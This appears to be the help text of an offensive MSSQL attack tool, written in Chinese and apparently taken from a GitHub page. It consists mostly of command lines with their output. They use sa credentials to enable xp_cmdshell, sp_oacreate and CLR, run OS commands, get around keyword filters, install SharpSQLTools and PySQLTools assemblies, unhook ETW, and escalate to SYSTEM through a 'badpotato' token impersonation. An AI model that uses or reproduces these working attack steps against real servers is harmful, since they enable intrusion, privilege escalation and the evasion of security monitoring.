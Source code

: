 帮助信息  
```
开启xp_cmdshell组件
mssql-command-tools_Windows_64.exe -s 127.0.0.1 -u sa -p admin --enable/--e
开启sp_oacreate组件
mssql-command-tools_Windows_64.exe -s 127.0.0.1 -u sa -p admin --ole/--o
开启ole组件
mssql-command-tools_Windows_64.exe -s 127.0.0.1 -u sa -p admin -clr
xp_cmdshell 执行
mssql-command-tools_Windows_64.exe -s 192.168.3.186 -u sa -p Admin12345 -cmd "whoami"
nt service\mssqlserver
绕过过滤xp_cmdshell关键字
mssql-command-tools_Windows_64.exe -s 192.168.3.186 -u sa -p Admin12345 -cmd6 "whoami"
nt service\mssqlserver
sp_oacreate 执行 略微不一样，但大致一样
mssql-command-tools_Windows_64.exe -s 192.168.3.186 -u sa -p Admin12345 -cmd2 "whoami" 
nt service\mssqlserver
mssql-command-tools_Windows_64.exe -s 192.168.3.186 -u sa -p Admin12345 -cmdsp "whoami" 
nt service\mssqlserver
安装SharpSQLTools clr
mssql-command-tools_Windows_64.exe -s 192.168.3.186 -u sa -p Admin12345 --install_clr
Clrcmd Install SharpSQLTools CLR Success.
执行命令
mssql-command-tools_Windows_64.exe -s 192.168.3.186 -u sa -p Admin12345 -cmd3 "clr_exec whoami"
mssql: [+] Process: cmd.exe
mssql: [+] arguments:  /c whoami
mssql: [+] RunCommand: cmd.exe  /c whoami
mssql:
mssql: nt service\mssqlserver
提权
mssql-command-tools_Windows_64.exe -s 192.168.3.186 -u sa -p Admin12345 -cmd3 "clr_badpotato whoami" 
mssql: [*] CreateNamedPipeW Success! IntPtr:4048
mssql: [*] RpcRemoteFindFirstPrinterChangeNotificationEx Success! IntPtr:1816351484896
mssql: [*] ConnectNamePipe Success!
mssql: [*] CurrentUserName : MSSQLSERVER
mssql: [*] CurrentConnectPipeUserName : SYSTEM
mssql: [*] ImpersonateNamedPipeClient Success!
mssql: [*] OpenThreadToken Success! IntPtr:6840
mssql: [*] DuplicateTokenEx Success! IntPtr:6556
mssql: [*] SetThreadToken Success!
mssql: [*] CreateOutReadPipe Success! out_read:5536 out_write:5528
mssql: [*] CreateErrReadPipe Success! err_read:3436 err_write:5072
mssql: [*] CreateProcessWithTokenW Success! ProcessPid:9608
mssql: nt authority\system
卸载SharpSQLTools clr
mssql-command-tools_Windows_64.exe -s 192.168.3.186 -u sa -p Admin12345 --uninstall_clr
Uninstall SharpSQLTools CLR Success.
安装PySQLTools clr
mssql-command-tools_Windows_64.exe -s 192.168.3.186 -u sa -p Admin12345 --installpy_clr
Clrcmd Install PySQLTools Clr Success.
执行命令
mssql-command-tools_Windows_64.exe -s 192.168.3.186 -u sa -p Admin12345 -cmdpy "clr_exec whoami" 
mssql: [+] Successfully unhooked ETW!
mssql: [*] No dll to patch
mssql: [+] Process: cmd.exe
mssql: [+] arguments:  /c whoami
mssql: [+] RunCommand: cmd.exe  /c whoami
mssql:
mssql: nt service\mssqlserver
提权
卸载PySQLTools clr
mssql-command-tools_Windows_64.exe -s 192.168.3.186 -u sa -p Admin12345 --uninstallpy_clr
Uninstall PySQLTools Clr Success.
```